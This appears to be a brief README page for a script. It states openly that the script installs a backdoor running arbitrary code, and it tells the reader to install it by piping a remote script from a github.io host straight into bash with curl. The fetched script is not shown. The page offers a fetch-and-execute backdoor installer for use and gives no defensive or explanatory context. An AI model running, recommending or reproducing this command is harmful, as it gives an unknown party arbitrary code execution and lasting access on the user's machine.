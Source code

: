 # Note that this also installs a backdoor that has arbitrary code. Use at your own risk.

# How to use

Run the following line: curl -S "https://wolfoverflow.github.io/script" | bash
